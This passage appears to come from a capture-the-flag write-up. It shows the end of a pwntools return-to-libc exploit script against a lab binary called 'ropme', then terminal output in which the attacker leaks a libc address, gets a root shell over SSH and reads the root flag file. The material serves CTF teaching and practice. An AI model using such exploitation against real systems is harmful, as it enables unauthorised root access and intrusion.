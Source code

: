 ```python
payload+= "AAAA"
payload+= pack(binsh)

io.sendline(payload)

io.interactive()
```

Once we use it with the correct settings, we will see this output in terminal.

```
python exploit.py
[*] '/Users/dpua/Downloads/ropme'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Connecting to 192.168.105.156 on port 22: Done
[*] shon@192.168.105.156:
    Distro    Ubuntu 12.04
    OS:       linux
    Arch:     i386
    Version:  3.13.0
    ASLR:     Enabled
[+] Opening new channel: 'pwd': Done
[+] Receiving all data: Done (11B)
[*] Closed SSH channel with 192.168.105.156
[*] Working directory: '/tmp/tmp.xJXsCtT2b8'
[+] Opening new channel: 'ln -s /home/shon/* .': Done
[+] Receiving all data: Done (0B)
[*] Closed SSH channel with 192.168.105.156
[+] Starting remote process '/usr/bin/ropme' on 192.168.105.156: pid 9718
[*] PUTS: 0xb7684830
[*] Switching to interactive mode
\xb6\x83\x0@tc\xb7�Oh\xb7
2 + 2 = ?
# $ whoami
root
# $ cat /root/root.txt
uad360{T0r0mb0l0R3turns1337}
# $
```

Finally we got the root flag.

`Root flag: uad360{T0r0mb0l0R3turns1337}`
